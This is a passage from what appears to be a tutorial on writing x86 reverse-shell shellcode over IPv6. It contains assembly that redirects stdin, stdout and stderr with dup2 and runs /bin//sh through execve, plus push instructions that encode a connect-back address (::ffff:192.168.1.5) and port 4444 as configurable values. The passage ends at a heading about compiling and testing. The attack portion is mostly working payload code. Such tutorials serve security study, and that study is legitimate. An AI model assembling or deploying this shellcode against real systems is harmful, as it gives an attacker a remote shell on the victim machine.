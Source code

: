 ```
push byte 0x66        ;socketcall()
pop eax
int 80h

push byte 0x2         ;push 0x2 on stack
pop ecx               ;ECX = 2

;dup2() to redirect stdin(0), stdout(1) and stderr(2)
loop:
push byte 0x3f        ;dup2()
pop eax               ;EAX = 0x3f
int 0x80              ;exec sys_dup2
dec ecx               ;decrement counter
jns loop              ;if SF not set ==> keep on jumping

;execve(/bin//sh)
xor ecx,ecx           ;clear ECX
push ecx              ;Push NULL
push byte 0x0b        ;execve() sys call number
pop eax               ;EAX=0x2 | execve()
push 0x68732f2f       ;(1)/bin//sh
push 0x6e69622f       ;(2)/bin//sh
mov ebx,esp           ;EBX pointing to “/bin//sh”
int 0x80              ;Calling Interrupt for sys call
```

___


The socket structure should match the following :
```
struct sockaddr_in6 {
  sa_family_t     sin6_family;
  in_port_t       sin6_port;
  uint32_t        sin6_flowinfo;
  struct in6_addr sin6_addr;
  uint32_t        sin6_scope_id;
 };

{sa_family=AF_INET6, sin6_port=htons(4444), inet_pton(AF_INET6, "::1", &sin6_addr), sin6_flowinfo=0, sin6_scope_id=0}
```

First, we have to set-up the structure of  inet_pton and then embed into our complete socket structure as above. We do it by first setting up sin6_addr to “0” using PUSH DWORD eax and then similarly setting up ::ffff:192.168.1.5 (Configurable), port 4444 as below:

* push DWORD 0x0501a8c0
* push WORD 0xffff  
* push WORD 0x5c11 [port=4444] (Configurable)

___

### LET’S COMPILE AND TEST THE SHELLCODE:
